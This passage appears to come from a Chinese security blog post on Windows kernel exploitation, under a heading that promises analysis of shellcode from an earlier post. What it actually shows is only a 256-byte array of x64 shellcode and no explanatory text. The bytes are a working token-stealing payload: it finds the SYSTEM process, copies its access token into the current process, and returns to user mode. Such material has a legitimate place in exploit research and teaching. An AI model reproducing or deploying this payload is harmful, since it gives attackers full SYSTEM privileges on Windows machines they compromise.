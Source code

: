 [![](assets/1706090578-08e0e07ba44edcb6be8220f5c52f7e55.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122132732-f1406cfe-b8e6-1.png)

### C. 分析上一篇的 shellcode

```bash
BYTE cmd[256] = {
    0x48, 0x31, 0xc0, 0x65, 0x48, 0x8b, 0x80, 0x88, 0x01, 0x00,
    0x00, 0x48, 0x8b, 0x80, 0xb8, 0x00, 0x00, 0x00, 0x49, 0x89,
    0xc1, 0x48, 0x8b, 0x80, 0x48, 0x04, 0x00, 0x00, 0x48, 0x8b,
    0x00, 0x48, 0x8b, 0x50, 0xf8, 0x49, 0x89, 0xc0, 0x48, 0x8b,
    0x00, 0x48, 0x83, 0xfa, 0x04, 0x75, 0xf0, 0x49, 0x8b, 0x50,
    0x70, 0x48, 0x83, 0xe2, 0xf8, 0x49, 0x8b, 0x89, 0xb8, 0x04,
    0x00, 0x00, 0x48, 0x83, 0xe1, 0x07, 0x48, 0x01, 0xca, 0x49,
    0x89, 0x91, 0xb8, 0x04, 0x00, 0x00, 0x65, 0x48, 0x8b, 0x04,
    0x25, 0x88, 0x01, 0x00, 0x00, 0x66, 0x8b, 0x88, 0xe4, 0x01,
    0x00, 0x00, 0x66, 0xff, 0xc1, 0x66, 0x89, 0x88, 0xe4, 0x01,
    0x00, 0x00, 0x48, 0x8b, 0x90, 0x90, 0x00, 0x00, 0x00, 0x48,
    0x8b, 0x8a, 0x68, 0x01, 0x00, 0x00, 0x4c, 0x8b, 0x9a, 0x78,
    0x01, 0x00, 0x00, 0x48, 0x8b, 0xa2, 0x80, 0x01, 0x00, 0x00,
    0x48, 0x8b, 0xaa, 0x58, 0x01, 0x00, 0x00, 0x31, 0xc0, 0x0f,
    0x01, 0xf8, 0x48, 0x0f, 0x07, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff
};
```
